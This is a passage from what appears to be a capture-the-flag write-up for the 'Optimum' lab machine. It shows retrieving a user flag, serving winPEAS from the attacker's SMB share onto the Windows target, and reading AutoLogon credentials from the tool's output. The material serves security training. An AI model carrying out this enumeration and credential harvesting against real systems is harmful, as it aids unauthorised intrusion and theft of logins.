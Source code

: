 There’s a small typo in the flag name, but I can grab it:

```

PS C:\Users\kostas\Desktop> cat user.txt.txt
d0c39409d7b994a9a1389ebf38ef5f73

```

## Shell as SYSTEM

### Enumeration - winPEAS

I started with [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) to look for escalation paths. I cloned a copy of the repo to my host, started an SMB server in the path with the Windows exe with `sudo smbserver.py share . -smb2support`, and copied it to Optimum:

```

PS C:\programdata> copy \\10.10.14.10\share\winPEAS.exe . 

```

Now I’ll run it with `.\winPEAS.exe`. Scanning through the output, there were a few interesting things.

The box is Windows Server 2012 R2, and 64-bit:

```

    Hostname: optimum                               
    ProductName: Windows Server 2012 R2 Standard
    EditionID: ServerStandard                       
    ReleaseId:                                      
    BuildBranch:                                    
    CurrentMajorVersionNumber:                      
    CurrentVersion: 6.3                             
    Architecture: AMD64

```

There were creds for kostas:

```

  [+] Looking for AutoLogon credentials
    Some AutoLogon credentials were found!!
    DefaultUserName               :  kostas
    DefaultPassword               :  kdeEjDowkS*    

```

A bunch of services were called out as potentially interesting, but nothing in there really panned out.
